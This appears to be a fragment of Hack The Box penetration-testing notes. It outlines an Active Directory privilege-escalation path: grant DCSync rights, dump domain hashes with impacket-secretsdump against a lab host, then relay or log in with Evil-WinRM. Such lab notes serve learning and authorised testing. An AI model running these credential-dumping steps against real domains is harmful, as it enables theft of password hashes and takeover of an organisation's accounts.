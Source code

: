 ```python
        print('{}\n\n[+] Found potentially interesting account(s):{}\n\n{}\n'.format(red, reset, interesting))
except KeyboardInterrupt:
    print('\nExiting...\n')
    exit(0)
```
https://discord.com/channels/780824470113615893/780824472021106700/944257015981699143




#### Privilege Escalation
User > grant DCSync rights > secretdumper (gives hashes) > NTLMrelay or Use Evil-winrm

- Dont forget to use the old way to escalate after testing AD ways


<center><h3>Secret dumper</h3></center> 

This step is after user gets the *DCSync* permissions

```bash
# Remote machine
impacket-secretsdump htb.local/hacker:Password1@10.10.10.161
```

``````
Since svc_loanmgr has AD replication rights let’s try a DCSync attack to make the DC spit out all the hashes, hopefully the Administrator’s ones too
``````


